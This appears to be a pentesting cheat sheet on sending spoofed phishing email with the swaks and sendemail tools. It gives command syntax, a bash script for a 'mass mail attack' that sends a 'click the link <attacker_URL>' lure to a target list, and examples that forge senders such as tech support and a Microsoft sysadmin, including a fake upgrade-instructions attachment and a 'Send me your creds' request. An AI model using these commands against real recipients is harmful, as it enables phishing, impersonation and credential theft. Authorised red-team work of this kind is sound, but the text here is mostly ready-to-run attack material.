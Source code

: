 # Manual

It is recommended to use `swaks` instead of `sendemail` due to a missing feature to change the mail transfer agent (think of it as an SMTP version of user agent) that can easily detect the specific version.

## 01 - Swaks

### 1.1 - Syntax

```
$ swaks [--tls] --server <smtp_server_IP> --to <reciever_email_address> --from <sender_email_address> --header "Subject: <subject_name>" --body "<body_paragraph>" [--add-header "Content-Type: text/html"] [--attach /path/to/file.txt]
```

Pass the credentials.

```
$ swaks --auth-user <email> --auth-password <password> --server <smtp_server_IP> [--port <PORT>] --auth plain [--tls] --to <reciever_email_address> --from <sender_email_address> --header "Subject: <subject_name>" --body "<body_paragraph>" [--add-header "Content-Type: text/html"] [--attach /path/to/file.txt]
```

### 1.2 - Usage

```
$ swaks -t itdept@victim.com --from techsupport@bestcomputers.com --header "Subject: test" --body "Please click the link <attacker_URL>" --server 192.168.8.131
```

Perform a mass mail attack.

```bash
#!/bin/bash
while read -r email
do
	swaks -t "${email}" --from techsupport@bestcomputers.com --header "Subject: test" --body "Please click the link <attacker_URL>" --server "${2}"
	[[ ${?} -ne 0 ]] && echo "${email}"
done < ${1}
```

The syntax as it follows.

```
$ ./mass_mail.sh emails.txt 192.168.8.131
```

## 02 - SendEmail

### 2.1 - Syntax

Syntax usage of the program.

```
$ sendemail -t <reciever_email_address> -f <sender_email_address> -s <smtp_relay_server_IP>:<PORT> -u "<Subject>" -a file.txt -o message-header="From: <fake_name> <<spoof_email>>"
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

A body paragraph that is written line by line
until you press CTRL-D to end the input
```

You can pass the credentials for your SMTP mail server.

```
$ sendemail -xu <email> -xp <password> -s <smtp_server_IP>[:<PORT>] -f <spoof_email> -t <email_target> -u "<subject>" -m "<message>" -o message-header="From: <fake_name> <<spoof_email>>"
```

### 2.2 - Usage

Here's an example just to show you how it works.

```
$ sendemail -t itdept@victim.com -f techsupport@bestcomputers.com -s 192.168.8.131 -u "Important Upgrade Instructions" -a /tmp/BestComputers-UpgradeInstructions.pdf -o message-header="From: Tech Support <techsupport@bestcomputers.com>"
Reading message body from STDIN because the '-m' option was not used.
If you are manually typing in a message:
  - First line must be received within 60 seconds.
  - End manual input with a CTRL-D on its own line.

IT Dept,

We are sending this important file to all our customers. It contains very important instructions for upgrading and securing your software. Please read and let us know if you have any problems.

Sincerely,
<fake_name>
```

For passing the credentials.

```
$ sendemail -xu attacker@email.com -xp <password> -s email.com -f sysadmin@microsoft.com -t john@microsoft.com -u "Subject Name" -m "Send me your creds" -o message-header="From: SysAdmin <sysadmin@microsoft.com>"
```